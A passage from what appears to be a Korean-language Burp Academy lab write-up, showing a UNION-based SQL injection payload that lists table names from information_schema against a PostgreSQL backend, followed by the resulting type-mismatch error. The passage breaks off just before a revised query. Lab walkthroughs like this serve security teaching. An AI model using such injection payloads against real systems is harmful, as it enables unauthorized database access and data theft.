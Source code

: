 계속 테스트해나간다. `information_schema.tables` 테이블에서 테이블명을 조회하는 다음 쿼리를 사용한다. 

```sql
' UNION SELECT NULL,NULL,NULL, table_name, NULL,NULL,NULL,NULL FROM information_schema.tables --
```

결과는 다음과 같다. Integer타입이 조회하려고 하는 문자열 칼럼 table_name과 매치가 안된다는 것으로 보인다. 

```
java.io.IOException: org.postgresql.util.PSQLException: ERROR: UNION types integer and name cannot be matched
  Position: 67
```


![](/images/burp-academy-serial-8-12.png)


쿼리를 다음과 같이 수정한다. 
